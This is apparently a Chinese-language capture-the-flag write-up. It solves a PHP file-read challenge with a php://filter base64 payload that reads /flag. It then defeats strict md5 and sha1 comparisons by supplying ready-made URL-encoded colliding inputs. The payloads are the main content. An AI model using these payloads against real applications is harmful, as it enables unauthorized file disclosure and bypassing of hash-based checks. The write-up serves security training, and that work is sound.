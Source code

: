 访问ha1x1ux1u.php

```php
<?php

highlight_file(__FILE__);
error_reporting(0);

$file = $_GET["file"];
if (stristr($file, "file")){
  die("你败了.");
}

//flag in /flag
echo file_get_contents($file);
```

一个filter伪协议读取文件内容

```
php://filter/read=convert.base64-encode/resource=/flag
```

## level-up

第一步：robots.txt

第二步：level_2_1s_h3re.php

md5的强比较

直接payload：

```
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
    
    
&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2

```

第三步：sha1的强比较

```
array1=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1
    &array2=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1

```
